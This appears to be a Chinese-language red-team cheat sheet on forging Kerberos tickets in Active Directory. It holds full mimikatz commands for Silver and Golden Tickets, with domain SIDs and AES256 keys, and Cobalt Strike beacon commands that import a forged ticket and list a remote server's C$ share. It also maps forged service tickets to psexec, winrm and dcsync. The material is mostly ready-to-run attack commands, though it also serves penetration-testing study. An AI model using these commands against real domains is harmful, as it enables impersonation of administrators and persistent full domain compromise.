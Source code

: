**除非重新启动域控制器，否则无法删除万能密钥。万能钥匙可能引起一些复制问题（replication issues）**

# Silver Tickets

银票可以访问一台机器的一个服务，或者一台机器的任何服务

Silver Ticket 是伪造的 TGS

需要的哈希：RC4或者AES keys

制作银票
```
mimikatz # kerberos::golden /user:Administrator /domain:rto.local /sid:S-1-5-21-2323903455-1895497758-3703895482 /target:srv-2 /service:cifs /aes256:babf31e0d787aac5c9cc0ef38c51bab5a2d2ece608181fb5f1d492ea55f61f05 /ticket:srv2-cifs.kirbi
```

参数解释
- /user is the username to impersonate.
- /domain is the current domain name.
- /sid is the current domain SID.
- /target is the target machine.
- /aes256 is the AES256 key for the target machine.
- /ticket is the filename to save the ticket as.

导入银票到当前session
```
beacon> make_token DEV\Administrator FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\srv2-cifs.kirbi
beacon> ls \\srv-2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin

...
```


下面是一些访问技术与票据的组合
1. psexec				CIFS
2. winrm				HOST & HTTP
3. dcsync (DCs only)	LDAP


# Golden Tickets

金票可以访问任何机器的任何服务

需要```krbtgt```的NTLM/AES信息

制作金票
```
mimikatz # kerberos::golden /user:Administrator /domain:dev.cyberbotic.io /sid:S-1-5-21-3263068140-2042698922-2891547269 /aes256:390b2fdb13cc820d73ecf2dadddd4c9d76425d4c2156b89ac551efb9d591a8aa /ticket:golden.kirbi
```
